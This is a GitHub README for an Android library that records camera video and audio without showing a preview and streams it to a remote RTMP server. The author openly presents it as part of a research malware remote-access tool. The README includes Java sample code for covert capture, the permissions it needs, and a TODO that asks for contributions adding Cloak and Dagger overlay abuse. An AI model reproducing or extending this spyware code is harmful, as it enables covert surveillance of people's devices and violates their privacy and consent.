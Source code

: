 
# Live Hidden Camera

Live Hidden Camera (LHC) is a library which record live video and audio from Android device without displaying a preview.
![Live Hidden Camera](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Live%20Hidden%20Camera.gif)

## Motivation
I'm working on a research based Android Malware and decided to create a multi function RAT (Remote Administration Tool). I was working on Live Streams which I've found some RTMP based open sources projects including:

 - https://github.com/begeekmyfriend/yasea
 - https://github.com/ant-media/LiveVideoBroadcaster
 - https://github.com/TakuSemba/RtmpPublisher
 - https://github.com/fyhertz/libstreaming
which, all have some kind of problems based on the requirements of a RAT. But the common one was that they all need an activity to include a `SurfaceView`.

Therefore, I've started searching. Finally, I could create **Live Hidden Camera** which only needs a **CONTEXT** for stream live video, by combining these two projects:

 1. https://github.com/begeekmyfriend/yasea
 2. https://github.com/kevalpatel2106/android-hidden-camera

# How to use
I've created a library to make it more usable. The only requirement is to add the library to your project and pass the Rtmp URL to it.

Additionally you should care about:

 1. Your application should have the following permissions in `Manifest.xml`:
 - \<uses-permission android:name="android.permission.INTERNET" />  
- \<uses-permission android:name="android.permission.CAMERA" />  
- \<uses-permission android:name="android.permission.RECORD_AUDIO" />  
- \<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />

 2. You should handle that the declared permissions are granted to your application

<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions1.png" width="250">
<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions2.png" width="250">

## Adding library
The usage of the library is straight. Just add the following library to the `gradle.build` file of your project.

`compile 'ir.mstajbakhsh.android:LiveHiddenCamera:0.1.0'`

## Creating RTMP server
Before using the library, you should have deployed an Rtmp server. I've ued [Ant Media Server](https://github.com/ant-media/Ant-Media-Server). There is a nice guide on Ant Media Server installation in [THIS LINK](https://github.com/ant-media/Ant-Media-Server/wiki/Getting-Started).

After starting the Ant Media Rtmp server, you should see something like this:
![Ant Media Server](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/AntMediaServer.png)

## Sample Code
After adding the library to your project, do the following steps:

 1. Create a class which implements: `RtmpHandler.RtmpListener, SrsRecordHandler.SrsRecordListener, SrsEncodeHandler.SrsEncodeListener`
 2. Create two fields (one for publish and one for preview): 

    private SrsPublisher mPublisher;  
    private SrsCameraView mCameraView;

 3. Implement a function for starting the Live Hidden Camera:
 
```Java
    private void initHiddenCam(String rtmpURL) {  
    HiddenCameraLayout l = new HiddenCameraLayout(getApplicationContext(), new HiddenCameraLayout.PermissionHandler() {  
        @Override  
  public void onPermissionNotGrantedException(Exception ex) {  
            Log.d("HCL", "Ask user to grant permission.");  
            Log.e("HCL", ex.getMessage());  
        }  
    });  
  
    //start config  
  CameraConfig cameraConfig = new CameraConfig()  
            .getBuilder(MainActivity.this.getApplicationContext())  
            .setCameraFacing(CameraFacing.REAR_FACING_CAMERA)  
            .build();  
  
  
    mCameraView = l.initHiddenLayout(cameraConfig);  
  
    mPublisher = new SrsPublisher(mCameraView);  
    mPublisher.setEncodeHandler(new SrsEncodeHandler(this));  
    mPublisher.setRtmpHandler(new RtmpHandler(this));  
    mPublisher.setRecordHandler(new SrsRecordHandler(this));  
    mPublisher.setPreviewResolution(640, 360);  
    mPublisher.setOutputResolution(640, 360);  
    mPublisher.setVideoHDMode();  
    mPublisher.startPublish(rtmpURL);  
    mPublisher.startCamera();  
}
```

# Problems
## Green Screen
The main problem I currently facing, is the green screen. I've described the error in StackOverflow in https://stackoverflow.com/questions/56380851/getting-green-image-while-preview-hidden-live-video

If you have any suggestion about this problem, or any other idea, do not hesitate contacting me.

## Constant View
Because of the overlay of the Live Hidden Camera, no other apps can be clicked. The clicks are only accepted by the LHC. Check **TODO** section.

# TODO
There is a project called *Cloak and Dagger* which unraveled a very dangerous ability in Android. Any contribution in using the *Cloack and Dagger* in LHC is welcomed.

Check the *Cloak and Dagger* here:

 1. http://cloak-and-dagger.org
 2. https://medium.com/@targetpractice/cloak-and-dagger-malware-techniques-demystified-c4d8a035b94e
 
# Contact
You can reach me from my website: https://mstajbakhsh.ir/
